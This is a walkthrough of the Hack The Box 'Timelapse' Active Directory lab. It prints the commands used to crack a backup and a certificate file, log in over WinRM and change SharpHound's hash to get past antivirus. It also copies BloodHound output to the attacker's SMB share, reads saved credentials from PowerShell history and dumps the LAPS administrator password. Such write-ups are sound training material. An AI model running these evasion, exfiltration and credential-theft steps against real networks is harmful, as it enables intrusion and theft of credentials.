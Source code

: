 # Timelapse Write-up - HTB

## Recon

Starting of with an nmap scan:

```ada
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-04-24 01:21:44Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-04-24T01:23:17+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_http-title: Not Found
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49693/tcp open  msrpc             Microsoft Windows RPC
49719/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```

We have a DC ahead!

## Enumeration

### SMB:

Null-session listing of SMB showed available "Share:

<figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

Listing it, we can see two folders inside:

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

## Footholding:

Interesting backup file, I tried checking what's up with it, but seems to be password protected:

<figure><img src="../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

I will start brute-forcing this in the background while I hunt for other entry points.

It was so quick, I didn't have time to tab-switch in bash!&#x20;

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

We extracted the contents and what's found is a .pfx file, let's crack it!

<figure><img src="../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

Running OpenSSL to extract the certificate and key:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private-key.pem -nodes -password pass:thuglegacy 
```

```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.pem -password pass:thuglegacy
```

We are using these now to WinRM:

<figure><img src="../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

## Lateral Movement

Running whoami /all to check privs:

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

Trying to use SharpHound to map AD Permissions, but it seems there is some security controls in place.

<figure><img src="../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

Tried some barbarian method to fool the controls...&#x20;

<figure><img src="../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

Time to bring out the BIG GUNZ! :gun:

Downloaded the SharpHound version of ps script.&#x20;

Added a random line to modify the hash value.

<figure><img src="../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

Encode it to base64.

```
cat SharpHound.ps1 | base64 > Lol.b64
```

Run a webserver to transfer.

Transfer the file and decode it back:

<figure><img src="../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

Import the module:

<figure><img src="../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

Running it:

```
Invoke-BloodHound -CollectionMethod Default -OutputDirectory C:\Users\legacyy\Documents
```

Transfer this back to our machine. Easiest path: using the smb share.

<figure><img src="../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

We have no access, so we will set-up an smb on our kali box.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> Copy-Item "20250423202712_BloodHound.zip" -Destination "C:\Shares"
Access to the path 'C:\Shares\20250423202712_BloodHound.zip' is denied.
At line:1 char:1
+ Copy-Item "20250423202712_BloodHound.zip" -Destination "C:\Shares"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\legacy..._BloodHound.zip:FileInfo) [Copy-Item], UnauthorizedAccessException
    + FullyQualifiedErrorId : CopyFileInfoItemUnauthorizedAccessError,Microsoft.PowerShell.Commands.CopyItemCommand
```

<figure><img src="../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Let's now copy them:

```
copy 20250423202712_BloodHound.zip \\10.10.16.8\share\
copy NzcwYWNhMTEtODlmNS00OTNiLWEyNjAtZDQ2YjczY2QzMDk2.bin \\10.10.16.8\share\
```

<figure><img src="../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

Loaded up data in Bloodhound and looks like nothing for now.

Trying to move mimikatz on target system, but certutil blocks it? Modified the file as before to modify hash.

<figure><img src="../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

Interesting enough with IWR it works!

<figure><img src="../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Tried to decode it, but hmm...:

<figure><img src="../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

Eventually I realized I am chasing ghosts... Something I need to stop doing :) I should've had first run all internal recon.

Anyways running:

```
$historyPath = "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
Get-Content $historyPath
```

Reveals:

```
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
```

## Privilege Escalation

Now, let's use these creds to WinRM:

```
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

Bloodhound shows outbound permission:

<figure><img src="../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

ReadLAPSPassword, game over.

Running:

```
Get-ADComputer -Identity "DC01" -Properties ms-Mcs-AdmPwd | Select-Object -ExpandProperty ms-Mcs-AdmPwd
```

This will show us the password for Administrator account: 2nZ9eKj#30jek!1!ahj;0WO4

Now use them and get the flag!

<figure><img src="../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

